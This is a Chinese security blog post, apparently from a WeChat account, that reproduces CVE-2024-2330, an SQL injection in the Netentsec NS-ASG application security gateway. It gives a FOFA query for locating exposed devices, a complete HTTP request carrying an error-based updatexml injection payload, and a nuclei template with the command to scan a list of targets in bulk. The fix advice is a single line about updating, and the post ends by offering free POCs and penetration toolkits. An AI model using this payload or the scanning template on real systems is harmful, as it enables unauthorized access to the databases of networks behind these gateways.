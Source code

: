 #  CVE-2024-2330漏洞复现（POC）   
原创 fgz  AI与网安   2024-03-11 07:03  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
网康NS-ASG应用安全网关index.php sql注入  
漏洞  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOSkllkOV36LWh90EiaqtQ3NkBZrbEkJQdfaZts4ibg7SMjSrHnJ4gOicvGElo1yBDfWpq6AafURKicHQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Netentsec NS-ASG Application Security Gateway 6.3版本  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
网康科技的NS-ASG应用安全网关是一款软硬件一体化的产品，集成了SSL和 IPSecQ，旨在保障业务访问的安全性，适配所有移动终端，提供多种链路均衡和选择技术，支持多种认证方式灵活组合，以及内置短信认证、LDAP令牌、USB KEY等多达13种认证方式。  
击者可以远程发起攻击。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
app="网康科技-NS-ASG安全网关"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOSkllkOV36LWh90EiaqtQ3N0CalqJDa8a9QCYdPj3hkTypSw7PP2kcq9O2EtshIEO3rsQO6KlAe7Q/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包  
```
POST /protocol/index.php HTTP/1.1
Host: x.x.x.x
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 263

jsoncontent={"protocolType":"addmacbind","messagecontent":["{\"BandIPMacId\":\"1\",\"IPAddr\":\"eth0'and(updatexml(1,concat(0x7e,(select+version())),1))='\",\"MacAddr\":\"\",\"DestIP\":\"\",\"DestMask\":\"255.255.255.0\",\"Description\":\"Sample+Description\"}"]}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOSkllkOV36LWh90EiaqtQ3NVSXte6zed0sD6uwfKkDj0nVBLhpOKTXg9K4y05AYp8GN7TAAs8ZVTA/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
批量漏洞扫描poc  
  
  
nuclei poc文件内容如下，计算  
md5(102103122)的值  
```
id: CVE-2024-2330

info:
  name: 网康NS-ASG应用安全网关index.php sql注入漏洞
  author: fgz
  severity: critical
  description: Netentsec NS-ASG Application Security Gateway 6.3中发现了一个漏洞，被分类为危急级别。这影响了文件/protocol/index.php的一个未知部分。对参数IPAddr的操作导致了SQL注入。攻击者可以远程发起攻击。
  metadata:
    max-request: 1
    fofa-query: app="网康科技-NS-ASG安全网关"
    verified: true
requests:
  - raw:
      - |+
        POST /protocol/index.php HTTP/1.1
        Host: {{Hostname}}
        Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
        Accept: */*
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Te: trailers
        Connection: close
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 263
        
        jsoncontent={"protocolType":"addmacbind","messagecontent":["{\"BandIPMacId\":\"1\",\"IPAddr\":\"eth0'and(updatexml(1,concat(0x7e,md5(102103122),0x7e),1))='\",\"MacAddr\":\"\",\"DestIP\":\"\",\"DestMask\":\"255.255.255.0\",\"Description\":\"Sample+Description\"}"]}

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains((body), 'error') && contains(body,'6cfe798ba8e5b85feb50164c59f4bec')"

```  
  
运行POC  
```
nuclei.exe -t mypoc/cve/CVE-2024-2330.yaml -l data/wangkang.txt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOSkllkOV36LWh90EiaqtQ3Nh7V2Eq1okcrkjU0PqctITbp986toIT6szkVV8xR84ewJiauibfA6cZiaQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
07  
  
—  
  
修复建议  
  
  
建议您更新当前系统或软件至最新版，完成漏洞的修复。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
  
